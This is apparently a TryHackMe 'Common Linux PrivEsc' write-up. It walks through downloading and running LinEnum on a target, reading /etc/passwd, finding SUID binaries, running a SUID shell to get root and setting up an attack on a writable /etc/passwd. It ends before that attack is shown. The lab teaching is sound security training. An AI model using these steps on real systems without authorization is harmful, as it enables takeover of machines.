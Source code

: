 ```yaml
---
title: Common Linux PrivEsc detailed write-up | TryHackMe
published: true
---
```

Tasks **1**, **2** and **3** don't need explanation.

## Task 4 : Enumeration

To get LinEnum on the target's machine, you need to start a server on your local machine (it has to be in the directory where you store LinEnum.sh or you will have to provide the path to it afterwards) and connect to it from the target :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/python%20listener%20server4.png" class="border" />
 
```
python3 -m http.server 8000
```

>The `-m` option is used to search a module and run the corresponding python script, which in this case is an http server.
>The number 8000 is the port that our server will be listening in, you can select any port that's not being used.

Once the server is started, you can request the file you want from the target's console :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/wget%20linenum4.png" class="border" />

```
wget <YOUR MACHINE'S @IP>:8000/LinEnum.sh
```

>`wget` is a network downloader
>By using this command, we are downloading the file `LinEnum.sh` from the server in <YOUR MACHINE'S @IP> that we started before.


Now that LinEnum.sh is on the target's machine, we need to make it executable (because we need to run it in order to start the enumeration process), this is done by using :

```
chmod +x LinEnum.sh
```

To see how Linux file permissions work, you can visit [this page](https://www.redhat.com/sysadmin/manage-permissions) 

Let's now look at how many "user[x]" are there in the system :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/grep%20user4.png" class="border" />

```
cat /etc/passwd | grep user*
```
>What we are doing with `cat` is showing in stdout (Standard Output) the contents of the file `/etc/passwd` and piping them into a `grep` command.
>
>`grep` allows us to look for patterns in texts, by typing `grep user*` we are searching for any pattern that contains the word "user" and any other character next to it (this is why we use the wildcard *)

* * *
<p class="answer">Answer : there are 8 user[x] in the system.</p>
* * *
For a beteter understanding of wildcards in Linux, you can visit [this page](https://geek-university.com/linux/wildcard/) 

The next step is to find how many shells are there on the system, to guess so, we need to start enumerating with `LinEnum.sh`.
You can run the script with :

```
./LinEnum.sh
```
>Remember that you have previously dowloaded it, given the proper permissions and you are working in the directory where it is located.

A better way of keeping our enumeration clean and easily manageable is to write the output of `LinEnum.sh` to a `.txt` file :

```
./LinEnum.sh > LinEnum.txt
```

> The file can be named as what you want, but I recommend using a name such as "LinEnum" or "Enumeration".

Once we have run the script, we can look for how many shells there are on the system :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/grep%20shell4.png" class="border" />

```
cat linEnum.txt | grep shell
```

* * *
<p class="answer">Answer : There are 4 shells in the system</p>
* * *

We are now asked what is the name of the bash script that is set to run every 5 minutes by cron.
Cron is used to automate tasks in Linux, its syntax can be a little bit tricky so if you need some more info you can have a look at [this site](https://linuxhandbook.com/crontab/)

Cron jobs are displayed in each user's /etc/crontab file, but since we run `LinEnum.sh` to do the work for us, we can just look for it at its output :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/grep%20crontab%204.png" class="border" />

```
cat linEnum.txt | grep crontab -C 10
```

>If you have read the previous tasks, you already know what this is doing, the only novelty is the `-C` option, which specifies how many lines of context you want to display.

* * *
<p class="answer">Answer : The autoscript.sh file is located in the "/home/user4/Desktop" directory</p>
* * *

Finally, we want to search for a file that has had its permissions changed, and now users are allowed to write to it :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/etc%20passwd%20perms4.png" class="border" />

```
find / -perm -200 2>/dev/null
ls -l /etc/passwd
```

>With the `find` command, we can look for files with concrete permissions by using the option `-perm`, to find files with user writing permissions we can look for `-200`, which shows every file which permissions are set to 200 or more.
>
>With `2>/dev/null`, we redirect the stderr (Standard Error) to /dev/null, which is kind of a "black hole" that discards all the data that is writen to it.
>
>For more info on stderr, visit [this page](https://www.howtogeek.com/435903/what-are-stdin-stdout-and-stderr-on-linux/). For more info on /dev/null, check [here](https://en.wikipedia.org/wiki/Null_device).
>
>A lot of files will be shown, but since /etc/passwd is such an important file, we can check its permissions with `ls -l` and see that it can be writen to.


## Task 5 : Abusing SUID/SGID Files

Checking for files with the `SUID/SGID` bit set is the go-to when first getting a shell on a machine if what we want is to escalata privileges.

If the `SUID` bit is set on a file, it means that the file will be executed with the same permissions as the owner of the file.
If the `SGID` bit is set on a file, the file will be executed with the permissions of the group that owns the file.
**Important : SUID and SGID have different behaviour when they are set in directories**

In order to find files with the SUID bit set, we can have a look at our `LinEnum` scan, or we can search them manually :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/find%20suid%20files5.png" class="border" />

```
find / -perm -u=s -type f 2>/dev/null
```
>Again, we are using `find` with its `-perm` option, this time we specify that we want any of the permission bits set (`-u=s`) and we use `-type f` so that it only returns files.

It seems that there is an uncommon file with the SUID bit set : 

* * *
<p class="answer">Answer : /home/user3/shell</p>
* * *

Due to `shell` having the SUID set, we can execute it and gain superuser privileges on the machine :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/root5.png" class="border" />

```
ls -l /home/user3/shell
./shell
```
>To check if a file has the `SUID/SGID` bit set, we look at its permissions.
>
>If they are : `rws-rwx-rwx`, the `SUID` bit is set.
>
>If they are : `rwx-rws-rwx`, the `SGID` bit is set.
>
>**Notice that they are marked with an `s`**

## Task 6 : Exploiting writeable /etc/passwd

The /etc/passwd file stores valuable account information, **it doesn't contain passwords**, it contains a list of the accounts of the system and it provides information about eeach and every of them, such as user ID, group ID, home directory, etc.
This file needs to have read permissions because other utilities require it to properly work, however it must not have write permissions except for the root account.
When a user can write in the /etc/passwd file, it can lead to a security breach, which is what we are going to exploit right about now :

What direction privilege escalation is the attack?

Horizontal privilege escalation occurs when we take over a user who is on the same privilege level as us. 
Vertical privilege escalation takes place when we want to access an account which privileges are higher than ours.

* * *
<p class="answer"> Answer : Vertical</p>
* * *

The way to exploit the vulnerability that we have found (which is that /etc/passwd can be writen to by a non-superuser account) is adding a new line of text to /etc/passwd with the intention of creating a new account in the system, with the password that we decide, and superuser privileges.

<style>
  .border {   
  border-width: 0px;
  border-color: #7FFF00;
  border-style: groove;
  box-shadow: 0px 0px 8px #ADFF2F} 
 .answer {
 text-shadow : 0px 0px 4px #ADFF2F }
</style>

